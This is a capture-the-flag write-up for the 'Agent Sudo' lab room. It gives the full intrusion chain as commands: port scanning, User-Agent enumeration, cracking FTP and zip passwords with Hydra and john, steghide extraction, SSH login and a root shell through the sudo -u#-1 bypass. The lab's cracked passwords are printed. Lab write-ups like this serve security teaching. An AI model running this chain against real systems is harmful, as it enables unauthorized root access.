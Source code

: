 # Agent Sudo -- CTF Writeup -- Web Enumeration, Steganography, SSH Access, and Sudo Privilege Escalation

> Short summary  
> Initial access was gained via web enumeration with custom User-Agent headers, revealing a hint for weak credentials. Used FTP to retrieve files, extracted hidden zip and steganography data to obtain SSH credentials for `james`. SSH login provided user-level access and a user flag. Privilege escalation achieved via sudo misconfiguration using the `sudo -u#-1 /bin/bash` technique to spawn a root shell and read `/root/root.txt`.

---

## Target
- IP: `10.201.41.224`
- Room: Agent Sudo
- Scan date (local notes): 2025-09-12

---

## 1 — Recon / Port scan

Command:
```bash
nmap -sS 10.201.41.224
```

Key output:
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Notes: FTP, SSH, and HTTP were open. Anonymous FTP was disabled. Webserver required custom User-Agent headers.

---

## 2 — Web enumeration

Website message on port 80:
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

Using curl to iterate User-Agent values (single letters) revealed a valid agent `C`:
```bash
curl -A "C" -L 10.201.41.224
```

Response indicated `Chris` has a weak password, hinting at FTP/SSH login credentials.

---

## 3 — FTP enumeration

Logged in with credentials found via Hydra (`chris:crystal`):
```bash
ftp> open 10.201.41.224
230 Login successful.
ftp> ls
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

Downloaded and inspected `To_agentJ.txt`:
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Other files (images) contained hidden information.

---

## 4 — Steganography / hidden data extraction

### Extracting hidden zip from `cutie.png`
```bash
unzip cutie.png
# warning about extra bytes; attempting 7z instead
```

### Using zip2john and john to crack the zip
```bash
zip2john hidden.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
# password found: alien
```

### Reading `To_agentR.txt`
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
- Base64 decoded (`QXJlYTUx`) → `Area51` — thought to be used as agent J's password, however is the steganography password.

### Extracting steganography from `cute-alien.jpg`
```bash
steghide info cute-alien.jpg
steghide extract -sf cute-alien.jpg
cat message.txt
```
```
Hi james,

Glad you find this message. Your login password is hackerrules!
```

---

## 5 — SSH login and user flag

SSH using credentials `james:hackerrules`:
```bash
ssh james@10.201.41.224
```

Located user files:
```bash
ls
Alien_autospy.jpg  user_flag.txt
cat user_flag.txt
```

Copied `Alien_autospy.jpg` back to local machine and verified with reverse image search.

---

## 6 — Privilege escalation

Transferred linPEAS for enumeration:
```bash
scp linPEAS/linpeas.sh james@10.201.41.224:/tmp/
```

Checked sudo permissions:
```bash
sudo -l
```

Output:
```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Exploited misconfiguration using `sudo -u#-1 /bin/bash`:
```bash
sudo -u#-1 /bin/bash
whoami
# root
```

---

## 7 — Root flag

With root privileges:
```bash
cat /root/root.txt
%flag removed%
```

---

## 8 — Post-exploit notes & cleanup

- Remove tools and credentials after use.
- User `james` had SUDO misconfiguration allowing root escalation — never allow `(ALL, !root) /bin/bash` in production.
- Steganography and hidden zip files can reveal passwords — always check for hidden data in public resources.

---

## 9 — References

- linPEAS (PEASS-ng) — https://github.com/carlospolop/PEASS-ng  
- Exploit-DB Sudo Misconfiguration: https://www.exploit-db.com/exploits/47502  
- Steghide — https://steghide.sourceforge.net/  
- CyberChef — https://gchq.github.io/CyberChef/  

---

## 10 — Appendix: commands used

```bash
# Recon
nmap -sS 10.201.41.224

# Web enumeration
curl -A "C" -L 10.201.41.224

# FTP
ftp 10.201.41.224
# download To_agentJ.txt, cutie.png, cute-alien.jpg

# Extract zip from png
unzip cutie.png
zip2john hidden.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
cat To_agentR.txt

# Stego
steghide info cute-alien.jpg
steghide extract -sf cute-alien.jpg
cat message.txt

# SSH
ssh james@10.201.41.224
cat user_flag.txt
scp Alien_autospy.jpg /image.jpg

# Privilege escalation
scp linpeas.sh james@10.201.41.224:/tmp/
sudo -u#-1 /bin/bash
cat /root/root.txt
```
